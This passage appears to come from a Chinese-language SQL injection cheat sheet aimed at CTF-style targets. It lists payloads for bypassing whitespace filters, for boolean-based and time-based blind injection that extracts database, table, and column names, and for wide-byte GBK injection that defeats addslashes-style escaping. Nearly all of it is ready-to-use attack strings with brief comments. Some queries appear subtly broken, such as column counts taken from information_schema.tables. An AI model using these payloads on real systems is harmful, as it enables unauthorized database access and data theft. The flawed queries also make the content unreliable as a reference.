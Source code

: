 ### 3.3. 空格过滤绕过

- `/**/`
- `--+` `#`
- `%09` `%0a` `%0b` `%0c` `%0d` `%a0`

### 3.4. 布尔盲注

```sql
# 猜数据库名长度
1 and length(database())=100--+
# 猜数据库字符值
1 and ascii(substr(database(),1,1))=100--+
# 猜表数量
1 and (select count(table_name) from information_schema.tables where table_schema=database())=100--+
# 猜表长度
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=100--+
# 猜表字段
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=100--+
# 猜列数量
1 and (select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag')=100--+
# 猜列长度
1 and length((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1))=100--+
# 猜列字段
1 and ascii(substr((select count(column_name) from information_schema.tables where table_schema=database() and table_name='flag' limit 0,1),1,1))=100--+
# 猜数据值数量
1 and (select count(flag) from flag)=100--+
```
### 3.5. 时间盲注

```sql
# 猜数据库名长度
1 and if(length(database())=100,sleep(3),0)--+
```
### 3.6. 宽字节注入


使用条件：
编码格式：`GBK`, `GBK2312`等
过滤函数：`mysql_real_escape_string()`, `addslashes()`等

原理：为绕过转义处理，使转义字符与输入字符结合成一个新的字符，使其无法转义

```sql
'1%df' or 1=1 #

# 16进制ASCII
'-1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273 --+
# group by
'-1%df' union select 1,table_name,group_concat(column_name) from information_schema.columns where table_schema=database() group by table_name limit 3,1 --+
```
